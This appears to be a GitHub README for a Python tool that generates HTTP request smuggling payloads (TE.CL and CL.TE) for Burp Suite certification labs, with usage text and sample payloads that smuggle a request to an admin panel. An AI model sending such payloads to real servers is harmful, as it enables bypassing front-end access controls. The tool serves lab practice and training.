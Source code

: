 ## Introduction
This tool is developed for burp suite practitioner certificate exam and HTTP Request Smuggling labs. The most important about this tool is <b>TE.CL</b> vulnerability exploitation and chunk size auto generator so you don't have to calculate the chunk size for the second(malicious request). <b>Τhis tool is simple but very useful</b>

The inspiration about this tool it was the [HTTP Requests Smuggler](https://github.com/PortSwigger/http-request-smuggler/) extension tool from burpsuite to use it you must have a valid burpsuite license.

For the valid chunk generator (TE.CL) i found the source code from [HTTP Requests Smuggler](https://github.com/PortSwigger/http-request-smuggler/) extension. You can find the source code below. <br>
> [TE-CL | PortSwigger HTTP Request Smuggler Resource](https://github.com/PortSwigger/http-request-smuggler/blob/master/resources/TE-CL.py) <br>
> [CL-TE | PortSwigger HTTP Request Smuggler Resource](https://github.com/PortSwigger/http-request-smuggler/blob/master/resources/CL-TE.py)



## Installation
```
$ git clone url
$ python3 tool.py --help
```

## Usage

```
$ python3 tool.py --help
usage: tool.py -v clte/tecl -host xxxxxxxxxx.net  -a admin_panel -m GET

options:
  -h, --help            show this help message and exit
  -v VULNERABILITY, --vulnerability VULNERABILITY
                        Possible values CLTE or TECL
  -host HOSTNAME, --hostname HOSTNAME
                        Target HOSTNAME
  -a ACTION, --action ACTION
                        ex. admin_panel
  -m METHOD, --method METHOD
                        Request Methods [GET, POST]
```

### Generating TE.CL Request
```
$ python3 tool.py -v tecl -host xxxx.net -a admin_panel -m get

---[TE.CL Payload Generated]---

Transfer-Encoding: chunked
Content-Length: 3

75
GET /admin_panel HTTP/1.1
Host: xxxx.net
Content-Type: application/x-www-form-urlencoded
Content-length: 15

x=1
0

---[TE.CL Payload Generated]---

[INFO]> Dont forget the \r\n after 0
Also disable the auto-update Content-Length from menu
```

### Send TE.CL Request
![image](https://user-images.githubusercontent.com/45040001/190521300-8a2cd4ec-3727-4c5c-a631-da0e86cb56f2.png)


### Generating CL.TE Request
```
python3 tool.py -v clte -host xxxx.net -a admin_panel -m get

---[CL.TE Payload Generated]---

Transfer-Encoding: chunked

0

GET /admin_panel HTTP/1.1
Host: xxxx.net
X-Ignore: X


---[CL.TE Payload Generated]---
```

### Send CL.TE Generated Request
![image](https://user-images.githubusercontent.com/45040001/190520684-1941ec58-15ef-4c92-96c1-4e4fc8181d8e.png)
